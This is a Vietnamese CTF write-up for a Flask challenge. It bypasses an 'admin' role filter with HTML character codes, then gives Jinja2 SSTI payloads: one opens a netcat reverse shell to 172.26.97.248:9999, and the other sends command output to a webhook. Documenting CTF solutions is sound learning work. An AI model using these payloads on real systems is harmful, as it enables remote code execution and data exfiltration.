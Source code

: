 Bài này sử dụng jwt để render và tạo cookie.Dựa vào source code đi kèm,ta thấy không thể nào bypass được jwt,cookie chỉ có thể do server tạo ra.<b>
Mà server check dựa vào role là user hay admin,ở phần register,nếu ta điền role là admin sẽ bị chặn :<br> 
<a>
```
if "admin" in json_data:
        return jsonify(message="Blocked!")
```
</a>
Ta thấy server check một cách lỏng lẻo,nên ta sẽ bypass bằng cách dùng Unicode.

| Ký tự | Mã Unicode | Ký tự | Mã Unicode |
|-------|------------|-------|------------|
| (space) | `&#32;` | `@` | `&#64;` |
| `!` | `&#33;` | `A` | `&#65;` |
| `"` | `&#34;` | `B` | `&#66;` |
| `#` | `&#35;` | `C` | `&#67;` |
| `$` | `&#36;` | `D` | `&#68;` |
| `%` | `&#37;` | `E` | `&#69;` |
| `&` | `&#38;` | `F` | `&#70;` |
| `'` | `&#39;` | `G` | `&#71;` |
| `(` | `&#40;` | `H` | `&#72;` |
| `)` | `&#41;` | `I` | `&#73;` |
| `*` | `&#42;` | `J` | `&#74;` |
| `+` | `&#43;` | `K` | `&#75;` |
| `,` | `&#44;` | `L` | `&#76;` |
| `-` | `&#45;` | `M` | `&#77;` |
| `.` | `&#46;` | `N` | `&#78;` |
| `/` | `&#47;` | `O` | `&#79;` |
| `0` | `&#48;` | `P` | `&#80;` |
| `1` | `&#49;` | `Q` | `&#81;` |
| `2` | `&#50;` | `R` | `&#82;` |
| `3` | `&#51;` | `S` | `&#83;` |
| `4` | `&#52;` | `T` | `&#84;` |
| `5` | `&#53;` | `U` | `&#85;` |
| `6` | `&#54;` | `V` | `&#86;` |
| `7` | `&#55;` | `W` | `&#87;` |
| `8` | `&#56;` | `X` | `&#88;` |
| `9` | `&#57;` | `Y` | `&#89;` |
| `:` | `&#58;` | `Z` | `&#90;` |
| `;` | `&#59;` | `[` | `&#91;` |
| `<` | `&#60;` | `\` | `&#92;` |
| `=` | `&#61;` | `]` | `&#93;` |
| `>` | `&#62;` | `^` | `&#94;` |
| `?` | `&#63;` | `_` | `&#95;` |
| ``` ` ``` | `&#96;` | ``` ` ``` | `&#96;` |
| `a` | `&#97;` | `n` | `&#110;` |
| `b` | `&#98;` | `o` | `&#111;` |
| `c` | `&#99;` | `p` | `&#112;` |
| `d` | `&#100;` | `q` | `&#113;` |
| `e` | `&#101;` | `r` | `&#114;` |
| `f` | `&#102;` | `s` | `&#115;` |
| `g` | `&#103;` | `t` | `&#116;` |
| `h` | `&#104;` | `u` | `&#117;` |
| `i` | `&#105;` | `v` | `&#118;` |
| `j` | `&#106;` | `w` | `&#119;` |
| `k` | `&#107;` | `x` | `&#120;` |
| `l` | `&#108;` | `y` | `&#121;` |
| `m` | `&#109;` | `z` | `&#122;` |
| `{` | `&#123;` | `\|` | `&#124;` |
| `}` | `&#125;` | `~` | `&#126;` |

Sau khi bypass được check role,ta sẽ khai thác SSTI để tạo revert shell tại <a>`rendered_template = render_template_string(template)`</a> <br>
Payload: 
<a>`{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('nc 172.26.97.248 9999 -e /bin/bash').read() }}
`</a> <br>
Lắng nghe port 9999 : `nc -lvnp 9999` <br>
Cách 2: <br>
Payload: <br>
<a>
```
{
  "template": "{{ url_for.__globals__['__builtins__']['__import__']('urllib2').urlopen('<Link_Webhook>/?flag=' + url_for.__globals__['os'].popen('ls').read()) }}"
}
```
</a> 
Có : <br>
<p> url_for :  Đây là một hàm phổ biến trong Flask dùng để tạo ra URL cho một endpoint cụ thể. </p>
<p> __globals__ : Đây là một thuộc tính của các hàm trong Python, chứa các biến toàn cục có sẵn trong phạm vi hàm đó. Khi gọi url_for.__globals__, ta truy cập được toàn bộ không gian toàn cục của Flask,
bao gồm các hàm, biến và module. </p>
<p> ['__builtins__'] : Đây là một mục trong __globals__, chứa các hàm và biến dựng sẵn của Python. </p>
<p>Trong Python, module builtins chứa rất nhiều hàm dựng sẵn. Các hàm này có thể được sử dụng mà không cần import vì chúng được tích hợp sẵn trong môi trường Python. <br>
Dưới đây là danh sách các hàm phổ biến trong builtins: </p>
        Hàm nhập xuất: <br>
print() :In dữ liệu ra màn hình. <br>
input() : Lấy dữ liệu đầu vào từ người dùng. <br>
open()  : Mở file. <br>
Hàm đặc biệt cho import và unload module: <br>
__import__() :Cho phép import một module mới hoặc lấy lại module đã được import vào bộ nhớ. <br>
Cách dùng __import__('module_name') có thể thay thế cho câu lệnh import module_name. <br>
Hàm hữu ích khác : <br>
eval(), exec() – Thực thi biểu thức hoặc mã nguồn.
        
      

